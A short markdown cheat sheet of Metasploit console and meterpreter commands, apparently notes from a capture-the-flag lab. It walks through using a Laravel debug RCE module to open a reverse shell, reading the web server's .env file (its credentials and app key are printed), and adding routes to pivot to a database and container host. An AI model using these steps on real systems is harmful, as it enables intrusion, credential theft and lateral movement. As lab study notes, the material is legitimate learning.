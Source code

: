 ## Metaspliot Framework Console

Some useful commands:

- list sessions `sessions`
- show options `show options`
- show module infos `info`
- show jobs `jobs`
- set option `set rhosts 10.10.114.115`
- run the exploit `run` / `exploit`
- upgrade session to 'meterpreter session' `sessions -u -1`
- in meterpreter
  - get system info `sysinfo`
  - resolve hostname to ip `resolve remote_service`
  - setup route`route add {ip address}\32 {meterpreter session ID}`
- open default shell of host via meterpreter `shell`
- interact with a session `sessions -i session_id`
- list current routes `route`

- use `exploit/multi/php/ignition_laravel_debug_rce` to open a reverse bash
- / contains '.dockerenv' - were in a docker container - "172.17.0.1" potentially container host
- check out what the environment variables for the web server are - `cat /var/www/.env`

```console
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:NEMESCXelEv2iYzbgq3N30b9IAnXzQmR7LnSzt70rso=
APP_DEBUG=true
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres
...
```

- `meterpreter > resolve webservice_database`

```console
Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

- `bg` to exit meterpreter
- setup route `route add 172.28.101.51\32 5`
- setup route `route add 172.17.0.1\32 5`
